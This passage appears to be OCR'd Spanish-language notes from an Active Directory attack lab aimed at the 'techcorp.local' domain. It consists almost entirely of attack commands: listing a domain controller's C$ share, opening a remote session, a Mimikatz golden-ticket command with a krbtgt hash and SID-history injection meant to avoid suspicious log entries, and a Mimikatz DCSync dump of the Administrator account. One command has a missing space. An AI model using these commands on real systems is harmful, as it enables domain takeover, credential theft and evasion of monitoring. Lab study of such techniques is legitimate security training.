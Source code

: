     `ls \\techcorp-dc.techcorp.local\C$`

    `Enter-PSSession techcorp-dc.techcorp.local`

- Evite registros sospechosos mediante el grupo de controladores de dominio

    `Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 
    /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'`

    S-1-5-21-2578538781-2508153159-3419410681-516 – Domain Controllers

    S-1-5-9 – Enterprise Domain Controllers

    `Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\Administrator/domain:techcorp.local"'`